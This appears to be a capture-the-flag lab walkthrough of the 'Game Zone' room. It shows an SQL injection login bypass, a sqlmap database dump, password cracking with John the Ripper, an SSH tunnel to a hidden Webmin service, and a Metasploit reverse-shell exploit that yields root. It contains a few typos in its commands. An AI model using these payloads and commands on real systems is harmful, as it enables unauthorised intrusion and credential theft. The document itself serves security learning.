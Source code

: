 # Game Zone (SQLi)

### **Game Zone** <a href="#id-8b2vci6vwq1q" id="id-8b2vci6vwq1q"></a>

* Exploit SQLi manually and using SQLMap, crack users hashed password, us SSH tunnelling to reveal a hidden service, and use Metasploit payloads to gain root privileges.

### **Obtain access via SQLi** <a href="#id-77j1chn0d484" id="id-77j1chn0d484"></a>

* Target host uses SELECT \* FROM users WHERE username = :username AND password := password SQL query within login form.
* Manipulate query to login without legitimate credentials.
  * Username = ' or 1=1 -- -
  * Password = blank
* Changes SQL query to SELECT \* FROM users WHERE username =' or 1=1 -- - AND password := password.
  * "1=1" = true.
  * "-- -" comments out remainder of query.

### **Use SQLMap** <a href="#h72ziccdx7ro" id="h72ziccdx7ro"></a>

* SQLMap is popular OSS for automatic SQL injection and database takeover tool.
* Pre-installed on Kali.
* Can be installed from[ here](https://github.com/sqlmapproject/sqlmap).

#### **Use SQLMap to dump entire database** <a href="#id-6h4anh2fa8wt" id="id-6h4anh2fa8wt"></a>

1. Intercept request to game review search feature using BurpSuite.
2. Save request into text file.

POST /portal.php HTTP/1.1

Host: 10.10.72.152

Content-Length: 15

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.72.152

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://10.10.72.152/portal.php

Accept-Encoding: gzip, deflate

Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

Cookie: PHPSESSID=9h551ujsnetbpkpeam2fsr2ki2

Connection: close

searchitem=test

* Pass request into SQLMap to use authenticated user session.

sqlmap -r request.txt --dbms=mysql --dump

* \-r uses intercepted request.
* \--dbms tells SQLMap the type of DBMS.
* \--dump attempts to output entire database.

### **Crack Password with JohnTheRipper (JTR)** <a href="#glo8ahxuyg6t" id="glo8ahxuyg6t"></a>

* JTR is fast OSS password cracker.
* Preinstalled on Kali.
* Takes wordlist, hashes it with specified algorithm, then compares it to hashed password.
* Hashes cannot be reversed.
* Can only be broken by hash comparison.

**Use JTR to crack hash gained above**

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

* hash.txt contains list of hashes to crack.
* \--wordlist is list to use to find dehashed value.
* \--format is hashing algorithm to use.

### **Expose Services with Reverse SSH Tunnels** <a href="#oa1yd32ugd6e" id="oa1yd32ugd6e"></a>

* Reverse SSH port forwarding specifies that a given port on a remote host should be forwarded to local host and port.[ ![cYZsC8p](<../.gitbook/assets/0 (1).png>)](https://private-user-images.githubusercontent.com/157394432/309004029-46543e83-ed0e-421c-a78c-4e88f5a18315.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MTMyNjgwNDcsIm5iZiI6MTcxMzI2Nzc0NywicGF0aCI6Ii8xNTczOTQ0MzIvMzA5MDA0MDI5LTQ2NTQzZTgzLWVkMGUtNDIxYy1hNzhjLTRlODhmNWExODMxNS5wbmc\_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNDE2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDQxNlQxMTQyMjdaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT03MzE5YmY2NWNjMzIxMjlhY2JiMDJjZjBjZTYwZTRhN2E4ODcxMWNkZTUyMWU4NTMzOTQxNGUyOGJhNzgyMTFiJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.0K-TaFR35b-f1AwSdaAc51dbFsyDwtbD7QtWEuBNqQs)
* \-L is local tunnel.
  * Attacker <- target host.
  * Can forward traffic to another host and view it if site is blocked.
    * E.g. imgur blocked at work.
    * Browse to "localhost:9000" to load imgur traffic using remote server.

ssh -L 9000:imgur.com:80 user@example.com

* \-R is remote tunnel.
  * Attacker -> target host.
  * Attacker forwards traffic to target host for others to view.

**Use ss tool to investigate sockets running on host**

ss -tulpn

| **Argument** | **Description**                 |
| ------------ | ------------------------------- |
| -t           | Display TCP sockets.            |
| -u           | Display UDP sockets.            |
| -l           | Display only listening sockets. |
| -p           | Show process using the socket.  |
| -n           | Do not resolve service names.   |

* Service running on port 10000 blocked on attack host via firewall rule from outside.
* Use SSH tunnel on attack host to expose port via target host.

ssl -L 10000:localhost:10000 agent47@TARGET\_IP

* Browse to[ http://localhost:10000](http://localhost:10000/) on attack host to access newly-exposed webserver.

### **Privilege Escalation with Metasploit** <a href="#id-9jv8ggfi36xe" id="id-9jv8ggfi36xe"></a>

* Use CMS dashboard version (webmin 1.5.80) to find Metasploit payload to execute against target host.
* [Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/21851) found on Exploit-db.

msfconsole

search webmin type:exploit

use exploit/unix/webapp/webmin\_show\_cgi\_exec

set password videogamer124

set rhosts ATTACKER\_IP

set username agent47

set ssl no

show payloads

set payload payload/cmd/unix/reverse

set lhost ATTACKER\_IP

exploit

* Set RHOSTS to Attack Host due to SSH tunnel created earlier.
* Set SSL to be false as the SSL tunnel is not running over HTTPS.

\[\*] Exploiting target 0.0.0.1

\[\*] Started reverse TCP double handler on 10.10.174.232:4444

\[\*] Attempting to login...

\[-] Authentication failed

\[\*] Exploiting target 127.0.0.1

\[\*] Started reverse TCP double handler on 10.10.174.232:4444

\[\*] Attempting to login...

\[+] Authentication successful

\[+] Authentication successful

\[\*] Attempting to execute the payload...

\[\*] Accepted the first client connection...

\[\*] Accepted the second client connection...

\[+] Payload executed successfully

\[\*] Command: echo cClA4EYV0eVm9IvA;

\[\*] Writing to socket A

\[\*] Writing to socket B

\[\*] Reading from sockets...

\[\*] Reading from socket A

\[\*] A: "cClA4EYV0eVm9IvA\r\n"

\[\*] Matching...

\[\*] B is input...

\[\*] Command shell session 2 opened (10.10.174.232:4444 -> 10.10.72.152:53206) at 2024-02-29 17:40:57 +0000

\[\*] Session 2 created in the background.

sessions 1

\[\*] Starting interaction with 1...

whoami

root

* Stabilise shell.

python -c 'import pty;pty.spawn("/bin/bash")'

* Find root flag.

cd /

find / -name "root.\*" -user root 2>/dev/null
